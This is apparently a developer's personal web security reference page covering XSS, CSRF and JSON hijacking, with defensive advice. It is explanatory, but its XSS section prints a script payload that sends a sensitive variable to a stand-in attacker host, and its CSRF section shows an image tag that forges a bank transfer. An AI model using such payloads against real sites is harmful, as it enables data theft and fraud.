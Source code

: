 ```yaml
---
layout: page
title: Web Security Reference
---
```


This is my own reference for any security-related advice I find I must keep in
mind when writing web-facing web apps and services.

[This page's source is visible on
GitHub](https://github.com/jennings/jennings.github.io). If I screwed up, send
a pull request and I'll fix it up.


## Protect against XSS

[Cross-Site Scripting](http://en.wikipedia.org/wiki/Cross-site_scripting)
refers to an attacker convincing a vulnerable website to send malicious
JavaScript to a victim. For example, if a comment system allows HTML, an
attacker can submit the following comment:

    This is an evil comment.
    <script>
        jQuery.ajax({
            url: "http://evil.example.com",
            data: someSensitiveVariable
        });
    </script>

Any victim who loads the page containing this comment will send
`someSensitiveVariable` to `evil.example.com`.


## Protect against CSRF

[Cross-Site Request
Forgery](http://en.wikipedia.org/wiki/Cross-site_request_forgery) is when a
malicious site convinces the victim's browser to make a request that performs
some action.

For example, if a bank transaction can be accomplished by making a GET request,
the following image element on a malicious page will do so:

    <img src="https://bank.example.com/api/transfer?to=evilaccount&amount=1000.00">

To protect against this:

* Include authentication tokens with each transaction request (if the attacker has
  access to the authentication token, they are already effectively logged in as that
  user).
* Require a secret, user-specific token with any request that has a side-effect
  (for example, a hidden form field). An attacker will not be able to acquire
  this token.


## Protect against JSON hijacking

When server-side code is returning a JavaScript array, include a `while(1);` at the
beginning of the request:

    Request:
    GET /api/posts

    Response:
    while(1);[{"id":1},{"id":2}]

This protects against third parties adding a `<script>` tag to their own pages
and executing the result. [Phil Haack describes the exploit
here](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/).

Same-origin code can see the textual content of the request and strip the
leading `while(1);`.
